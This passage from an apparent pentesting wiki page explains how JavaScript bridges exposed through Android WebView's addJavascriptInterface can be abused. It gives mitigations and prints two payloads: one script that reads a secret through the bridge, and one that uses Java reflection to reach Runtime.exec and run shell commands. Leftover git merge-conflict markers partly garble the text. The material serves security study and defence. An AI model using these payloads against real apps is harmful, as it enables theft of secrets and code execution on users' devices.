 ```markup
<!-- Exploit to get the secret from JavaScript -->
<script>alert(javascriptBridge.getSecret());</script>
```

&lt;&lt;&lt;&lt;&lt;&lt;&lt; HEAD

## Note that if the **attacker is able to control the mobile** where the vulnerable application is running, he could be able to abuse it to **make it load the internal file and see it**. In this case the CORS isn't stopping the attack because the attacker is **directly accessing the file instead of trying to access it from a different origin**.

With access to the JavaScript code, via, for example, via stored **XSS,** **MITM** attack or a **malicious** **website** that is loaded inside the WebView, can directly call the exposed Java methods.

> > > > > > > upstream/master

{% hint style="info" %}
Note that in the case of trying to exploit this vulnerability via an **Open Redirect to an attackers web page that access the Native Android Objet**. If the access to the redirection is done via a mobile **browser** and **not using** the same **WebView**, the **browser won't be able to access the native Android object**.
{% endhint %}

If `addJavascriptInterface` is necessary, take the following considerations:

* **Only JavaScript provided** with the APK should be allowed to use the bridges, e.g. by verifying the URL on each bridged Java method \(via `WebView.getUrl`\).
* **No JavaScript should be loaded from remote endpoint**s, e.g. by keeping page navigation within the app's domains and opening all other domains on the default browser \(e.g. Chrome, Firefox\).
* If necessary for legacy reasons \(e.g. having to support older devices\), **at least set the minimal API level to 17** in the manifest file of the app \(`<uses-sdk android:minSdkVersion="17" />`\).

#### Javascript Bridge to RCE via Reflection

As noted in [**this research** ](https://labs.f-secure.com/archive/webview-addjavascriptinterface-remote-code-execution/)\(_check it for ideas in case you obtain RCE_\) **\*\*once you found a JavascriptBridge it may be possible to obtain** RCE **via** Reflection\*\* using a payload like the following one:

```markup
<!-- javascriptBridge is the name of the Android exposed object -->
<script>
function execute(cmd){
  return javascriptBridge.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec(cmd);
}
execute(['/system/bin/sh','-c','echo \"mwr\" > /mnt/sdcard/mwr.txt']);
</script>
```

However modern applications may use the **`@JavascriptInterface` annotation** that indicates to the JavascriptBridge that **only** the method with this annotation should be **exposed**.  
In that scenario, you won't be able to abuse Reflection to execute arbitrary code.
